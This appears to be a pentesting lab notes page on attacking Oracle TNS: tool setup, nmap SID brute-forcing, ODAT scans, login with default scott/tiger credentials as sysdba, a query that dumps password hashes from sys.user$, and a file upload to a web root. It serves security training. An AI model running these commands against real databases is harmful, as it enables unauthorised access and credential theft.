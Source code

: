# Oracle Transparent Network Substrate

## Footprinting The Service

### Tool Setup

{% code overflow="wrap" %}
```
sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Before we can enumerate the TNS listener and interact with it, we need to download a few packages and tools</p></figcaption></figure>

### Nmap

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Nmap - SID Bruteforcing

{% code overflow="wrap" %}
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **ODAT**

{% code overflow="wrap" %}
```
./odat.py all -s 10.129.204.235
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p> the <code>odat.py</code> tool to perform a variety of scans like retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations etc.</p></figcaption></figure>

### **SQLplus - Log In**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>You can also attempt to append "as sysdba" for higher privileges</p></figcaption></figure>

If you come across the following error <mark style="color:red;">sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory</mark> execute the following command

{% code overflow="wrap" %}
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
{% endcode %}

### Oracle RDBMS - Interaction

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - Database Enumeration**

{% code overflow="wrap" %}
```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Try using the valid account to log in as the System Database Admin (<code>sysdba</code>), giving higher privileges. This is possible when the user has the appropriate privileges typically granted by the database administrator.</p></figcaption></figure>

### **Oracle RDBMS - Extract Password Hashes**

{% code overflow="wrap" %}
```
select name, password from sys.user$;
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Oracle RDBMS - File Upload**

| OS      | Path                 |
| ------- | -------------------- |
| Linux   | `/var/www/html`      |
| Windows | `C:\inetpub\wwwroot` |

{% code overflow="wrap" %}
```
echo "Oracle File Upload Test" > testing.txt
```
{% endcode %}

{% code overflow="wrap" %}
```
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl -X GET http://10.129.204.235/testing.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


